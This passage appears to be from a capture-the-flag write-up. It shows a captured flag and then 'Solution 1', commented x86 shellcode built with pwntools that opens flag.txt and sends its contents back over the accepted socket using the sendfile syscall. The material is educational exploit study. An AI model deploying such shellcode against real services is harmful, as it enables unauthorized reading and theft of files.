 ```  
flag{2f20f16416a066ca5d4247a438403f21}  
```

### Solution 1

This was my original solution, it was the first thing I thought of to do, just
`open` `flag.txt` and use the `sendfile` syscall to send it.

```  
arg0 = b'./flag.txt'

shellcode = asm(f'''

/* open flag.txt */

xor eax, eax                                            # eax = 0  
xor ecx, ecx                                            # ecx = 0  
xor edx, edx                                            # edx = 0  
mov ebx, {'-0x' + hexlify(arg0[8:][::-1]).decode()}     # because of nulls set
a neg, then use neg, then push to stack  
neg ebx  
push ebx  
push {'0x' + hexlify(arg0[4:8][::-1]).decode()}         # rest of filename  
push {'0x' + hexlify(arg0[0:4][::-1]).decode()}  
mov ebx, esp                                            # ebx points to
./flag.txt  
mov al, {constants.SYS_open}                            # open file, eax will
have FD for open file  
int 0x80

/* use sendfile to, well, send the file */

mov ecx, eax                                            # mv open FD to ecx  
dec eax                                                 # fd from open  
mov ebx, eax                                            # now fd of accept  
push 50                                                 # length of flag?  
pop esi  
xor edx, edx                                            # zero edx, may not
been required since done above and not used  
xor eax, eax                                            # eax = 0  
mov al, 187                                             # sendfile syscall
(was not in pwn tools table)  
int 0x80  
''')  
```

This has two sections:

1. `open` the file.  I'm using the same trick from Solution 2 above for the file name, so I didn't have to hardcode it or use tricks like `././flag.txt` or `.///flag.txt` to get it to stack align.  After the `open` syscall, `eax` will have the FD of `./flag.txt`, I'll need that in the next step.  
2. Use `sendfile` to send the file.  Since I have the FD of the file, I just needed to `dec` to get the FD from `accept` (`4`).  So again, no need to hardcode anything.  The rest just sets up the parameters for the `sendfile` syscall.
